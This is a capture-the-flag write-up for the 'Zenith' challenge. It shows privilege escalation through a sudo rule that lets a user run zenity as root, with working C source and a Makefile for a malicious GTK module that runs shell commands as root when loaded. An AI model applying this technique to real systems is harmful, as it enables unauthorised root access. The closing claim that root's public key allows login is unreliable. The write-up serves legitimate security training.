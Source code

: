 # Zenith
**Catagory:** Misc  
**Difficulty:** Medium
> Escalate your privileges and retrieve the flag out of root's home directory.  
> (There is intentionally no `/root/flag.txt` file present.) 

## Challenge Setup
When starting the challenge container, we're giving the following credentials:
```
# Password is userpass
ssh -p 30403 user@challenge.nahamcon.com
```

## Recon
We can log in as `user` with password `userpass`. After logging in we can start with a quick `sudo -l` to figure out if our user can run any commands with `sudo`:  
```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zenith-ea51451dd14b1eab-5f945d548f-9n6xz:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on
        zenith-ea51451dd14b1eab-5f945d548f-9n6xz:
    (root) /usr/bin/zenity
```

## Zenity
It seems like the only thing we have to work with is [zenity](https://en.wikipedia.org/wiki/Zenity), so let's have a look at its features:  
```
$ zenity

(process:19): Gtk-WARNING **: 21:23:57.400: Locale not supported by C library.
	Using the fallback 'C' locale.
Unable to init server: Could not connect: Connection refused

(zenity:19): Gtk-WARNING **: 21:23:57.401: cannot open display:
```

If you looked into zenity, the error should make sense. Zenity is a UI toolkit, so it needs some kind of X display to display UI elements onto.  

Since we only have an SSH connection, `X11Forwarding` better be enabled. Let's have a peek at the `sshd` config:

```
cat /etc/ssh/sshd_config 

 --- < snip > ---

#GatewayPorts no
X11Forwarding yes    < ---- Nice :D
#X11DisplayOffset 10

 --- < snip > ---
```

Let's reconnect to ssh with the `-X` option, which will allow X11 elements to be forwarded to our local display:

```
ssh -X -p 30403 user@challenge.nahamcon.com
```

_Now_ we can take a look at zenity's features:
```
$ zenity --help

 --- < snip > ---

  --info                             Display info dialog
  --file-selection                   Display file selection dialog

 --- < snip > ---
 ```

These two sound interesting. We can use the file selection to browse the file system, and `--info` can be used to print files.

## Finding the flag
If we run the file selection command and navigate to `/root`, we find a file called `get_flag`. Notice the rather large size, which indicates that it's probably not a simple text file.

```
sudo zenity --file-selection
```
![](./res/listing.png)

So... can we just read the this file directly? Let's give it a try.
```
sudo zenity --text-info --filename="/root/get_flag"
```

![](./res/elf.png)  

Turns out `get_flag` is a binary and zenity won't print it. We'll have to find a way to get code execution on the box and execute `get_flag`.

## Preparing the exploit

There is another interesting feature of zenity we haven't talked about yet. It is hidden in the GTK options:
```
$ zenity --help-gtk
GTK+ Options
 --- < snip > ---

  --gtk-module=MODULES               Load additional GTK+ modules

 --- < snip > ---
```

If we provide a custom `GTK+` module, zenith will run it for us. This can be used to add new fancy UI elements, or in our case, run arbitrary C code. The documentation on GTK+ modules is a bit sparse, but here is the module I ended up with.

### Code
```c
#include <unistd.h>
#include <gtk/gtk.h>

// This code is executed when our module is loaded, meaning it
// will run with sudo
void gtk_module_init(gint *argc, gchar ***argv[]) {
    // After some debugging, I found out get_flag is not executable, 
    // so let's mark it as executable first.
    char *args[] = {"/bin/sh", "-c", "chmod +x /root/get_flag; /root/get_flag", NULL};
    execve(args[0], args, NULL);
}
```

### Makefile
```makefile
all:	module.c
	gcc -c -Wall -Werror -fpic module.c `pkg-config --cflags --libs gtk+-3.0`
	gcc -shared -o libhack.so module.o `pkg-config --cflags --libs gtk+-3.0`
```

To compile the module, you'll need the gtk-dev package:
```
sudo apt-get install libgtk-3-dev
```

After compiling the module with `make`, you should be left with a `libhack.so` file. Find a way to transfer this file to the target, either via ssh or wget.  

## Flag time

All that's left to do is to run zenity with our custom module:

```
$ sudo zenity --gtk-module="/home/user/libhack.so"
flag{d1fbeab9101e0ee7fc1342e4c96b4603}
```


## Alternative solution

Apparently the `root` user was allowed to log in via `ssh` as well. By reading `root`'s public key with `--text-info` we could have logged in as root without needing to resort to custom GTK modules, but hey, where's the fun in that?
